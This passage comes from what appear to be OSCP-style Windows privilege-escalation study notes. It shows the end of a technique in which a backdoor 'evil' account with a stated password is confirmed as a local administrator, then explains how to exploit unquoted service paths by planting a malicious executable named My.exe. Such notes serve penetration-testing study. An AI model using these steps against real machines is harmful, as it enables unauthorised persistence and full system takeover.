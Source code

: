 Reboot:  
```powershell
shutdown /r /t 0
```


Log back in with username "evil" with a password of "Ev!lpass" & check perms:  
```powershell
C:\Users\evil> net localgroup Administrators  
Alias name     Administrators  
Comment   Administrators have complete and unrestricted access to the computer/domain  
  
Members  
  
-------------------------------------------------------------------------------  
admin  
Administrator  
corp\Domain Admins  
corp\offsec  
evil  
The command completed successfully.
```



### Unquoted Service Paths:

We can use this attack when we have write permissions to a service's main directory & subdirectories but cannot replace files within them.  
  
When using file or directory paths that contain spaces, the developers should always ensure that they are enclosed by quotation marks.  

This ensures that they are explicitly declared. However, when that is not the case and a path name is unquoted, it is open to interpretation.  

Specifically, in the case of executable paths, anything that comes after each whitespace character will be treated as a potential argument or option for the executable.  
  
  
Ex:  
A service stored in a path such as _C\:\\Program Files\\My Program\\My Service\\service.exe_.

If the service path is stored unquoted, whenever Windows starts the service it will attempt to run an executable from the following paths:  
  
	C:\Program.exe  
	C:\Program Files\My.exe  
	C:\Program Files\My Program\My.exe  
	C:\Program Files\My Program\My service\service.exe  
  
So, could craft the malicious binary, name it My.exe, and store it in either the _C\:\\Program Files\\_ or _C\:\\Program Files\\My Program\\_ paths  
  
Ex:  
Service name/ path is _C\:\\Program Files\\My Program\\My Service\\service.exe_  
```powershell
move evil.exe "C:\Program Files\My Program\my.exe
```
